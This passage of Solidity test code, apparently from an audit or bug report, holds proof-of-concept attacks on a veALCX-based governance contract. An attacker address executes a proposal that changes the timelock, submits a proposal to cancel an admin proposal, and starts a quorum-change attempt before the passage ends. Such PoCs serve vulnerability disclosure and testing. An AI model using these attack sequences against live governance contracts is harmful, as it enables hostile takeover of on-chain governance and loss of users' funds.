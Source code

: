 ```Solidity
        // The attacker now executes the proposal
        hevm.startPrank(dead);
        hevm.warp(block.timestamp + timelockExecutor.executionDelay() + 1); // execution delay
        governor.execute(t1, v1, c1, keccak256(bytes(d1)), MAINNET);
        hevm.stopPrank();

        console2.log("Current Timelock:  ", governor.timelock()); // The timelock contract updated
    }

    function testCancellingProposalsAttack() public {
        createVeAlcx(admin, TOKEN_100K, MAXTIME, false);
        createVeAlcx(beef, 5e22, MAXTIME, false);
        createVeAlcx(dead, 15_000e18, MAXTIME, false);

        hevm.warp(block.timestamp + 50);

        // The first proposal which is an important proposal which admin proposes

        hevm.startPrank(admin);
        (address[] memory t, uint256[] memory v, bytes[] memory c, string memory d) = craftTestProposal();
        uint256 pid = governor.propose(t, v, c, d, MAINNET);
        hevm.warp(block.timestamp + governor.votingDelay() + 1); // voting delay
        hevm.roll(block.number + 1);
        hevm.stopPrank();

        // vote
        hevm.startPrank(admin);
        governor.castVote(pid, 1);
        hevm.warp(block.timestamp + governor.votingPeriod() + 1); // voting period
        hevm.stopPrank();

        // The attacker proposes a proposal aiming to cancel the aforementioned proposal

        hevm.startPrank(dead);

        (address[] memory t1, uint256[] memory v1, bytes[] memory c1, string memory d1) = 
            craftCancellingProposal(t, v, c, d, MAINNET);
        uint256 pid1 = governor.propose(t1, v1, c1, d1, MAINNET);
        hevm.warp(block.timestamp + governor.votingDelay() + 1); // voting delay
        hevm.roll(block.number + 1);
        hevm.stopPrank();

        // vote
        hevm.startPrank(dead);
        governor.castVote(pid1, 1);
        hevm.warp(block.timestamp + governor.votingPeriod() + 1); // voting period
        hevm.stopPrank();

        // execute
        hevm.startPrank(admin);
        hevm.warp(block.timestamp + timelockExecutor.executionDelay() + 1); // execution delay
        hevm.expectRevert(abi.encodePacked("Governor: proposal not successful"));
        governor.execute(t1, v1, c1, keccak256(bytes(d1)), MAINNET);
        hevm.stopPrank();

        // The last proposal which aims to change the acceptance quorum

        hevm.startPrank(beef);
        uint256 previousQuorum = governor.quorumNumerator();
        console2.log("Previous Quorum: ", previousQuorum);

```